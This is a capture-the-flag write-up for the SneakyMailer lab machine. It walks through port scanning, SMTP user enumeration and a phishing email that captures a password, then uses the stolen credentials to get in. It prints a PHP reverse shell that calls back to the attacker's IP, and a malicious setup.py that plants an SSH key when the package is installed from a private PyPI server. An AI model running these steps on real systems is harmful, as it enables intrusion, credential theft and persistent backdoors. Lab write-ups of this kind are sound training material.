


---
search:
  exclude: true
---
# SneakyMailer Writeup

## Introduction :

SneakyMailer is a Medium Linux box released back in July 2020. 

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/sneakymailer]
    → nmap -vvv -p- 10.10.10.197 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 25/tcp on 10.10.10.197
    Discovered open port 8080/tcp on 10.10.10.197
    Discovered open port 80/tcp on 10.10.10.197
    Discovered open port 143/tcp on 10.10.10.197
    Discovered open port 22/tcp on 10.10.10.197
    Discovered open port 21/tcp on 10.10.10.197
    Discovered open port 993/tcp on 10.10.10.197
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/sneakymailer]
    → nmap -sCV -p25,8080,80,143,22,212,993 10.10.10.197
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 18:26 CEST
    Nmap scan report for 10.10.10.197
    Host is up (0.47s latency).
    
    PORT     STATE  SERVICE  VERSION
    22/tcp   open   ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey:
    |   2048 57:c9:00:35:36:56:e6:6f:f6:de:86:40:b2:ee:3e:fd (RSA)
    |   256 d8:21:23:28:1d:b8:30:46:e2:67:2d:59:65:f0:0a:05 (ECDSA)
    |_  256 5e:4f:23:4e:d4:90:8e:e9:5e:89:74:b3:19:0c:fc:1a (ED25519)
    25/tcp   open   smtp     Postfix smtpd
    |_smtp-commands: debian, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING,
    80/tcp   open   http     nginx 1.14.2
    |_http-server-header: nginx/1.14.2
    |_http-title: Did not follow redirect to http://sneakycorp.htb
    143/tcp  open   imap     Courier Imapd (released 2018)
    |_imap-capabilities: ACL QUOTA IDLE CAPABILITY ENABLE completed UIDPLUS ACL2=UNION THREAD=REFERENCES NAMESPACE SORT OK STARTTLS UTF8=ACCEPTA0001 THREAD=ORDEREDSUBJECT IMAP4rev1 CHILDREN
    | ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
    | Subject Alternative Name: email:postmaster@example.com
    | Not valid before: 2020-05-14T17:14:21
    |_Not valid after:  2021-05-14T17:14:21
    |_ssl-date: TLS randomness does not represent time
    212/tcp  closed anet
    993/tcp  open   ssl/imap Courier Imapd (released 2018)
    | ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
    | Subject Alternative Name: email:postmaster@example.com
    | Not valid before: 2020-05-14T17:14:21
    |_Not valid after:  2021-05-14T17:14:21
    |_ssl-date: TLS randomness does not represent time
    8080/tcp open   http     nginx 1.14.2
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: nginx/1.14.2
    |_http-title: Welcome to nginx!
    Service Info: Host:  debian; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 69.99 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up the **sneakycorp.htb** domain name so let's add it to our hosts file:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/sneakymailer]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.197 sneakycorp.htb' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 sneakycorp.htb
    PING sneakycorp.htb (10.10.10.197) 56(84) bytes of data.
    64 bytes from sneakycorp.htb (10.10.10.197): icmp_seq=1 ttl=63 time=466 ms
    
    --- sneakycorp.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 466.380/466.380/466.380/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/sneakymailer]
    →
    

Now let's inspect it from the web browser: 

There is a hint about the use of **pypi** on the servers, when we take a look at the other php webpage we see that there is a list of potential usernames along with their emails:

We're going to save all the emails locally using curl:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/sneakymailer]
    → curl sneakycorp.htb/team.php 2>/dev/null | grep sneakymailer.htb | tr -d ' ' | cut -c 5- | rev | cut -c 6- | rev > emails
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/sneakymailer]
    → cat emails
    tigernixon@sneakymailer.htb
    garrettwinters@sneakymailer.htb
    ashtoncox@sneakymailer.htb
    cedrickelly@sneakymailer.htb
    airisatou@sneakymailer.htb
    briellewilliamson@sneakymailer.htb
    herrodchandler@sneakymailer.htb
    rhonadavidson@sneakymailer.htb
    colleenhurst@sneakymailer.htb
    sonyafrost@sneakymailer.htb
    jenagaines@sneakymailer.htb
    quinnflynn@sneakymailer.htb
    chardemarshall@sneakymailer.htb
    haleykennedy@sneakymailer.htb
    tatyanafitzpatrick@sneakymailer.htb
    michaelsilva@sneakymailer.htb
    
    [...]
    
    

Now let's use gobuster to enumerate other vhosts on the machine: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/sneakymailer]
    → gobuster vhost -u http://sneakycorp.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
    
    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:          http://sneakycorp.htb
    [+] Method:       GET
    [+] Threads:      10
    [+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
    [+] User Agent:   gobuster/3.1.0
    [+] Timeout:      10s
    ===============================================================
    2021/06/26 18:38:01 Starting gobuster in VHOST enumeration mode
    ===============================================================
    Found: dev.sneakycorp.htb (Status: 200) [Size: 13742]
    
    

We found **dev.sneakycorp.htb** so we add it to our hosts file like we did previously, and then we take a look at the SMTP port 25 using netcat:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/sneakymailer]
    → nc -nv 10.10.10.197 25
    (UNKNOWN) [10.10.10.197] 25 (smtp) open
    V220 debian ESMTP Postfix (Debian/GNU)
    
    VRFY cedrickelly@sneakymailer.htb
    252 2.0.0 cedrickelly@sneakymailer.htb
    
    VRFY angelicaramos@sneakymailer.htb
    252 2.0.0 angelicaramos@sneakymailer.htb
    
    VRFY nihilist@sneakymailer.htb
    550 5.1.1 <****nihilist@sneakymailer.htb>: Recipient address rejected: User unknown in virtual mailbox table

Basically here we see that the emails we got earlier are all valid **(252 2.0.0)** for this SMTP server. Now you probably guessed it from the box's logo, this is about phishing. We can send a phishing email with a link to our machine using this SMTP service. We do the following:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/sneakymailer]
    → nc -nv 10.10.10.197 25
    (UNKNOWN) [10.10.10.197] 25 (smtp) open
    
    HELO 10.10.10.197
    220 debian ESMTP Postfix (Debian/GNU)
    250 debian
    
    MAIL FROM: nihilist@sneakymailer.htb
    250 2.1.0 Ok
    
    RCPT TO: ashtoncox@sneakymailer.htb
    250 2.1.5 Ok
    
    RCPT TO: tatyanafitzpatrick@sneakymailer.htb
    250 2.1.5 Ok
    
    [...]
    
    RCPT TO: paulbyrd@sneakymailer.htb
    250 2.1.5 Ok
    
    DATA
    354 End data with CR>LF>.CR>LF>
    go visit my phishing website at http://10.10.14.11:8001
    .
    
    250 2.0.0 Ok: queued as 8C44F24667
    
    

That's how you do it manually. If we wanted we could have also did it automatically using **swaks**
    
    
    swaks --server sneakycorp.htb --body "goto http://10.10.14.11:8001" --to tigernixon@sneakymailer.htb,garrettwinters@sneakymailer.htb,....,sulcud@sneakymailer.htb,donnasnider@sneakymailer.htb
    
    

And as we simply send our phishing email that way, and after a few seconds we end up getting a connection back to us on our fake website which was actually a simple netcat listener: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/sneakymailer]
    → nc -lvnp 8001
    listening on [any] 8001 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.197] 39692
    POST / HTTP/1.1
    Host: 10.10.14.11:8001
    User-Agent: python-requests/2.23.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-Length: 185
    Content-Type: application/x-www-form-urlencoded
    
    firstName=Paul&lastName;=Byrd&email;=paulbyrd%40sneakymailer.htb&password;=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword;=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
    
    

We can url-decode it from burpsuite's repeater by selecting the text and hitting **CTRL+SHIFT+U** and we get the following: 
    
    
    firstName=Paul&lastName;=Byrd&email;=paulbyrd@sneakymailer.htb&password;=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht&rpassword;=^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
    
    

So we seem to have gotten credentials: 
    
    
    paulbyrd@sneakymailer.htb : ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
    
    

Let's use them to read paul's emails from the IMAP port: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/sneakymailer]
    → nc -nv 10.10.10.197 143
    (UNKNOWN) [10.10.10.197] 143 (imap2) open
    * OK [CAPABILITY IMAP4rev1 UIDPLUS CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA IDLE ACL ACL2=UNION STARTTLS ENABLE UTF8=ACCEPT] Courier-IMAP ready. Copyright 1998-2018 Double Precision, Inc.  See COPYING for distribution information.
    
    a LOGIN paulbyrd ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
    * OK [ALERT] Filesystem notification initialization error -- contact your mail administrator (check for configuration errors with the FAM/Gamin library)
    a OK LOGIN Ok.
    
    b LIST "" "*"
    * LIST (\Unmarked \HasChildren) "." "INBOX"
    * LIST (\HasNoChildren) "." "INBOX.Trash"
    * LIST (\HasNoChildren) "." "INBOX.Sent"
    * LIST (\HasNoChildren) "." "INBOX.Deleted Items"
    * LIST (\HasNoChildren) "." "INBOX.Sent Items"
    b OK LIST completed
    
    c STATUS "INBOX" MESSAGES
    * STATUS "INBOX" (MESSAGES 0)
    c OK STATUS Completed.
    
    d STATUS "INBOX.Trash" MESSAGES
    * STATUS "INBOX.Trash" (MESSAGES 0)
    d OK STATUS Completed.
    
    e STATUS "INBOX.Sent Items" MESSAGES
    * STATUS "INBOX.Sent Items" (MESSAGES 2)
    e OK STATUS Completed.
    
    f SELECT "INBOX.Sent Items"
    * FLAGS (\Draft \Answered \Flagged \Deleted \Seen \Recent)
    * OK [PERMANENTFLAGS (\* \Draft \Answered \Flagged \Deleted \Seen)] Limited
    * 2 EXISTS
    * 0 RECENT
    * OK [UIDVALIDITY 589480766] Ok
    * OK [MYRIGHTS "acdilrsw"] ACL
    f OK [READ-WRITE] Ok
    
    h FETCH 1 BODY[]
    * 1 FETCH (BODY[] {2167}
    MIME-Version: 1.0
    To: root 
    From: Paul Byrd 
    Subject: Password reset
    Date: Fri, 15 May 2020 13:03:37 -0500
    Importance: normal
    X-Priority: 3
    Content-Type: multipart/alternative;
            boundary="_21F4C0AC-AA5F-47F8-9F7F-7CB64B1169AD_"
    
    --_21F4C0AC-AA5F-47F8-9F7F-7CB64B1169AD_
    Content-Transfer-Encoding: quoted-printable
    Content-Type: text/plain; charset="utf-8"
    
    Hello administrator, I want to change this password for the developer accou=
    nt
    
    Username: developer
    Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
    
    Please notify me when you do it=20
    
    --_21F4C0AC-AA5F-47F8-9F7F-7CB64B1169AD_
    Content-Transfer-Encoding: quoted-printable
    Content-Type: text/html; charset="utf-8"
    
    
    @font-face
            {font-family:"Cambria Math";
            panose-1:2 4 5 3 5 4 6 3 2 4;}
    @font-face
            {font-family:Calibri;
            panose-1:2 15 5 2 2 2 4 3 2 4;}
    /* Style Definitions */
    p.MsoNormal, li.MsoNormal, div.MsoNormal
            {margin:0in;
            margin-bottom:.0001pt;
            font-size:11.0pt;
            font-family:"Calibri",sans-serif;}
    .MsoChpDefault
            {mso-style-type:export-only;}
    @page WordSection1
            {size:8.5in 11.0in;
            margin:1.0in 1.0in 1.0in 1.0in;}
    div.WordSection1
            {page:WordSection1;}
    -->
    
    Hello administrator, I want to chang=
    e this password for the developer account
    
    &nbs;=
    p;
    
    Username: developer
    
    Original-Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
    
     
    
    Please notify me when you do i=
    t 
    
    =
    
    --_21F4C0AC-AA5F-47F8-9F7F-7CB64B1169AD_--
    )
    h OK FETCH completed.
    
    i FETCH 2 BODY[]
    * 2 FETCH (BODY[] {585}
    To: low@debian
    From: Paul Byrd 
    Subject: Module testing
    Message-ID: <4d08007d-3f7e-95ee-858a-40c6e04581bb@sneakymailer.htb>
    Date: Wed, 27 May 2020 13:28:58 -0400
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101
     Thunderbird/68.8.0
    MIME-Version: 1.0
    Content-Type: text/plain; charset=utf-8; format=flowed
    Content-Transfer-Encoding: 7bit
    Content-Language: en-US
    
    Hello low
    
    
    Your current task is to install, test and then erase every python module you
    find in our PyPI service, let me know if you have any inconvenience.
    
    )
    i OK FETCH completed.
    

So now we have other credentials **developer:m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C**. We use these credentials on the FTP service: 
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/sneakymailer]
    → ftp 10.10.10.197
    Connected to 10.10.10.197.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.197:nothing): **developer**
    331 Please specify the password.
    Password: **m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C**
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxrwxr-x    8 0        1001         4096 Jun 30  2020 dev
    226 Directory send OK.
    ftp> cd dev
    250 Directory successfully changed.
    ftp> ls -al
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxrwxr-x    8 0        1001         4096 Jun 30  2020 .
    drwxr-xr-x    3 0        0            4096 Jun 23  2020 ..
    drwxr-xr-x    2 0        0            4096 May 26  2020 css
    drwxr-xr-x    2 0        0            4096 May 26  2020 img
    -rwxr-xr-x    1 0        0           13742 Jun 23  2020 index.php
    drwxr-xr-x    3 0        0            4096 May 26  2020 js
    drwxr-xr-x    2 0        0            4096 May 26  2020 pypi
    drwxr-xr-x    4 0        0            4096 May 26  2020 scss
    -rwxr-xr-x    1 0        0           26523 May 26  2020 team.php
    drwxr-xr-x    8 0        0            4096 May 26  2020 vendor
    
    

And apparently we get access to the **dev.sneakycorp.htb** subdomain webservice root folder using developer's credentials on FTP. so let's put a reverse php shell there: 
    
    
    [terminal 1]
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/sneakymailer]
    → vim rev.php
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/sneakymailer]
    → cat rev.php
    <****?php
    exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.11/9001 0>&1'");
    ?>
    
    [terminal2]
    ftp> put rev.php
    local: rev.php remote: rev.php
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
    77 bytes sent in 0.00 secs (2.7197 MB/s)
    
    ftp> ls -la
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxrwxr-x    8 0        1001         4096 Jun 26 13:43 .
    drwxr-xr-x    3 0        0            4096 Jun 23  2020 ..
    drwxr-xr-x    2 0        0            4096 May 26  2020 css
    drwxr-xr-x    2 0        0            4096 May 26  2020 img
    -rwxr-xr-x    1 0        0           13742 Jun 23  2020 index.php
    drwxr-xr-x    3 0        0            4096 May 26  2020 js
    drwxr-xr-x    2 0        0            4096 May 26  2020 pypi
    --wxrw-rw-    1 1001     1001           77 Jun 26 13:43 rev.php
    drwxr-xr-x    4 0        0            4096 May 26  2020 scss
    -rwxr-xr-x    1 0        0           26523 May 26  2020 team.php
    drwxr-xr-x    8 0        0            4096 May 26  2020 vendor
    226 Directory send OK.
    
    

note: the reverse php shell we upload gets cleaned up very often so we need to upload the shell and immediately browse to it to trigger the reverse shell:
    
    
    [terminal 1]
    ftp> put rev.php
    local: rev.php remote: rev.php
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
    77 bytes sent in 0.00 secs (2.3688 MB/s)
    
    [terminal 2]
    [ 10.10.14.11/23 ] [ /dev/pts/23 ] [~/HTB/sneakymailer]
    → curl http://dev.sneakycorp.htb/rev.php
    
    [terminal 3]
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/sneakymailer]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.11] from (UNKNOWN) [10.10.10.197] 60378
    bash: cannot set terminal process group (651): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@sneakymailer:~/dev.sneakycorp.htb/dev$
    

And we get a reverse shell as www-data! now let's upgrade the reverse shell to a fully interactive TTY: 
    
    
    www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ which python python3 wget curl
    /usr/bin/python
    /usr/bin/python3
    /usr/bin/wget
    /usr/bin/curl
    www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ ^Z
    [1]  + 1545495 suspended  nc -lvnp 9001
    
    [ 10.10.14.11/23 ] [ /dev/pts/0 ] [~/HTB/sneakymailer]
    → stty raw -echo ; fg
    [1]  + 1545495 continued  nc -lvnp 9001
                                           export TERM=screen-256color
    www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ export SHELL=bash
    www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ stty rows 50 columns 200
    www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ reset
    

Now that we have a fully interactive TTY we try to privesc to the developer user: 
    
    
    www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ su - developer
    Password:
    developer@sneakymailer:~$ id
    uid=1001(developer) gid=1001(developer) groups=1001(developer)
    developer@sneakymailer:~$ ls -lash
    total 12K
    4.0K drwxr-xr-x 3 root root      4.0K Jun 23  2020 .
    4.0K drwxr-xr-x 6 root root      4.0K May 14  2020 ..
    4.0K drwxrwxr-x 8 root developer 4.0K Jun 26 13:46 dev
    
    developer@sneakymailer:~$ ls -lash /home/*
    /home/low:
    total 48K
    4.0K drwxr-xr-x 8 low  low  4.0K Jun  8  2020 .
    4.0K drwxr-xr-x 4 root root 4.0K May 14  2020 ..
       0 lrwxrwxrwx 1 root root    9 May 19  2020 .bash_history -> /dev/null
    4.0K -rw-r--r-- 1 low  low   220 May 14  2020 .bash_logout
    4.0K -rw-r--r-- 1 low  low  3.5K May 14  2020 .bashrc
    4.0K drwxr-xr-x 3 low  low  4.0K May 16  2020 .cache
    4.0K drwx------ 3 low  low  4.0K May 14  2020 .gnupg
    4.0K drwxr-xr-x 3 low  low  4.0K May 16  2020 .local
    4.0K dr-x------ 2 low  low  4.0K May 16  2020 .pip
    4.0K -rw-r--r-- 1 low  low   807 May 14  2020 .profile
    4.0K drwxr-xr-x 2 low  low  4.0K Jun  8  2020 .ssh
    4.0K -rwxr-x--- 1 root low    33 Jun 26 12:31 user.txt
    4.0K drwxr-xr-x 6 low  low  4.0K May 16  2020 venv
    ls: cannot open directory '/home/vmail': Permission denied
    
    developer@sneakymailer:~$ cat /home/low/user.txt
    cat: /home/low/user.txt: Permission denied
    
    

We managed to privesc to the developer user, but we don't have enough privileges to get the user flag yet. To continue we need to take a look at the other websites on the machine, we do that by going to the parent directory:
    
    
    developer@sneakymailer:~$ pwd
    /var/www/dev.sneakycorp.htb
    
    developer@sneakymailer:~$ cd ..
    
    developer@sneakymailer:/var/www$ ls -lash
    total 24K
    4.0K drwxr-xr-x  6 root root 4.0K May 14  2020 .
    4.0K drwxr-xr-x 12 root root 4.0K May 14  2020 ..
    4.0K drwxr-xr-x  3 root root 4.0K Jun 23  2020 dev.sneakycorp.htb
    4.0K drwxr-xr-x  2 root root 4.0K May 14  2020 html
    4.0K drwxr-xr-x  4 root root 4.0K May 15  2020 pypi.sneakycorp.htb
    4.0K drwxr-xr-x  8 root root 4.0K Jun 23  2020 sneakycorp.htb
    
    

We already know the websites there except for **pypi.sneakycorp.htb** so let's take a look at it:
    
    
    developer@sneakymailer:/var/www/pypi.sneakycorp.htb$ clear
    developer@sneakymailer:/var/www/pypi.sneakycorp.htb$ ls -lash
    total 20K
    4.0K drwxr-xr-x 4 root root     4.0K May 15  2020 .
    4.0K drwxr-xr-x 6 root root     4.0K May 14  2020 ..
    4.0K -rw-r--r-- 1 root root       43 May 15  2020 .htpasswd
    4.0K drwxrwx--- 2 root pypi-pkg 4.0K Jun 30  2020 packages
    4.0K drwxr-xr-x 6 root pypi     4.0K May 14  2020 venv
    developer@sneakymailer:/var/www/pypi.sneakycorp.htb$ cat .htpasswd
    pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
    
    

So here we get the pypi user's password hash, we crack it locally using john: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/23 ] [~/HTB/sneakymailer]
    → john -w=/usr/share/wordlists/rockyou.txt pypi-htpasswd.txt
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    soufianeelhaoui  ()
    1g 0:00:00:23 DONE (2021-06-26 20:02) 0.04239g/s 151516p/s 151516c/s 151516C/s soul17soul17..souderton16
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    
    

And now we got the credentials **pypi:soufianeelhaoui**. We can use them to take a look at **:8080/packages/** and **:8080/simple/** but both pages are basically blank. After a bit of googling we stumble upon [this](https://pypiserver.readthedocs.io/en/latest/README.html#uploading-packages-from-sources-remotely) article which details how to upload a package to the server. to do so we need to create a **.pypirc** file in the home directory of our local machine:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/16 ] [~/HTB/sneakymailer]
    → vim ~/.pypirc
    
    [ 10.10.14.11/23 ] [ /dev/pts/16 ] [~/HTB/sneakymailer]
    → cat ~/.pypirc
    [distutils]
    index-servers = internal
    
    [internal]
    repository: http://pypi.sneakycorp.htb:8080
    username: pypi
    password: soufianeelhaoui
    
    

We also need to create a **setup.py** file that will be executed so that we can write our public key in **/home/low/.ssh/authorized_keys** over on the box:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/16 ] [~/HTB/sneakymailer]
    → cat ~/.pypirc
    [distutils]
    index-servers = internal
    
    [internal]
    repository: http://pypi.sneakycorp.htb:8080
    username: pypi
    password: soufianeelhaoui
    
    [ 10.10.14.11/23 ] [ /dev/pts/16 ] [~/HTB/sneakymailer]
    → cat setup.py
    from setuptools import setup, find_packages
    
    try:
            with open('/home/low/.ssh/authorized_keys','a') as f:
                    f.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAfhgjcMFy5mO4fwhQyW6vdX5bgTzqZTh9MhCW7+k6Sj nothing@nowhere")
                    f.close()
    except:
            pass
    
    setup(
            name="HelloWorld",
            version="0.1",
            packages=find_packages(),
    )
    

So we run it and ssh as low on the box: 
    
    
    [terminal 1]
    [ 10.10.14.11/23 ] [ /dev/pts/16 ] [~/HTB/sneakymailer]
    → python3 setup.py sdist upload -r internal
    running sdist
    running egg_info
    writing HelloWorld.egg-info/PKG-INFO
    writing dependency_links to HelloWorld.egg-info/dependency_links.txt
    writing top-level names to HelloWorld.egg-info/top_level.txt
    reading manifest file 'HelloWorld.egg-info/SOURCES.txt'
    writing manifest file 'HelloWorld.egg-info/SOURCES.txt'
    warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md
    
    running check
    warning: check: missing required meta-data: url
    
    warning: check: missing meta-data: either (author and author_email) or (maintainer and maintainer_email) should be supplied
    
    creating HelloWorld-0.1
    creating HelloWorld-0.1/HelloWorld.egg-info
    copying files to HelloWorld-0.1...
    copying setup.py -> HelloWorld-0.1
    copying HelloWorld.egg-info/PKG-INFO -> HelloWorld-0.1/HelloWorld.egg-info
    copying HelloWorld.egg-info/SOURCES.txt -> HelloWorld-0.1/HelloWorld.egg-info
    copying HelloWorld.egg-info/dependency_links.txt -> HelloWorld-0.1/HelloWorld.egg-info
    copying HelloWorld.egg-info/top_level.txt -> HelloWorld-0.1/HelloWorld.egg-info
    Writing HelloWorld-0.1/setup.cfg
    Creating tar archive
    removing 'HelloWorld-0.1' (and everything under it)
    running upload
    Submitting dist/HelloWorld-0.1.tar.gz to http://pypi.sneakycorp.htb:8080
    Server response (200): OK
    
    [terminal 2]
    [ 10.10.14.11/23 ] [ /dev/pts/28 ] [~/HTB/sneakymailer]
    → ssh low@sneakycorp.htb -i ~/.ssh/mainpc
    The authenticity of host 'sneakycorp.htb (10.10.10.197)' can't be established.
    ECDSA key fingerprint is SHA256:I1lCFRteozDGkqC/ZSE2SbHl8ISpJWhfu5nwn6LxbA0.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added 'sneakycorp.htb,10.10.10.197' (ECDSA) to the list of known hosts.
    Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    No mail.
    Last login: Tue Jun  9 03:02:52 2020 from 192.168.56.105
    low@sneakymailer:~$ id
    uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)
    low@sneakymailer:~$ cat user.txt
    9eXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
